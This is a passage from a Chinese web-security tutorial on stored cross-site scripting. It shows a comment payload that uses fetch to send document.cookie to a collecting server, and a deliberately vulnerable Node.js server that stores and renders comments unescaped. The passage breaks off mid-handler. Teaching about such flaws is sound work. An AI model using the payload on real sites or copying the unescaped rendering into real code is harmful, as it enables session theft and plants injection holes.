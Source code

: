 ### 攻击案例

假如在某网站上有一篇爆款文章：

```js
https://xxx.com/articles/1
```

攻击者在文章下面发表了一篇评论，内容中包含了 script 脚本：

```js
文章写的真棒！<script>fetch(`http://localhost:4000/cookies?cookie=${document.cookie}`)</script>
```

如果服务端直接把评论字符串保存到数据库了，下次只要有用户访问该文章时，包含恶意脚本的评论内容被返回，把当前用户的 cookie 发送到攻击者的服务器！下面是完整的 Node.js 服务端源码：

```js
const http = require("http");
const URL = require("url");
const qs = require("querystring");

// 模拟文章数据库
const article = {
  id: 1,
  title: "体育新闻",
  content:
    "火箭在对阵雷霆首轮系列赛的第5场比赛中以114-80战胜对手，但在这场比赛中更受关注的还是丹尼斯-施罗德和PJ塔克之间的冲突导致两人都被驱逐，当然，在这场比赛之后火箭已经手握3-2的领先优势。",
  comments: ["评论1", "评论2"],
};

// HTML 模板
function renderHTML(tpl) {
  return `<!DOCTYPE html><html><head><meta charset="UTF-8"/></head><body>${tpl}</body></html>`;
}

// 路由分发器
const routes = {
  "GET /articles/1": (req, res) => {
    const tpl = `
    <div style="width: 500px;margin: auto;">
      <h1>${article.title}</h1>
      <p>${article.content}</p>
      <h3>评论区</h3>
      <ul>${article.comments
        .map((item) => "<li>" + item + "</li>")
        .join("")}</ul>
      <hr/>
      <p>请发表您的评论：</p>
      <form action="/comments" method="post">
        <textarea lines="3" maxlength="1000" name="comment" ></textarea>
        <button type="submit">提交</button>
      </form>
    </div>
    `;
    res.setHeader("Set-Cookie", ["name=keliq", "age=10"]);
    res.end(renderHTML(tpl));
  },
  "POST /comments": async (req, res) => {
    let body = await getBody(req);
    let { comment = "" } = qs.parse(body);
    comment = comment.trim();
    if (comment) {
      // 为防止内存溢出，只保留最新10条评论
      article.comments = [comment, ...article.comments.slice(0, 9)];
    }
    res.writeHead(301, { Location: "/articles/1" });
```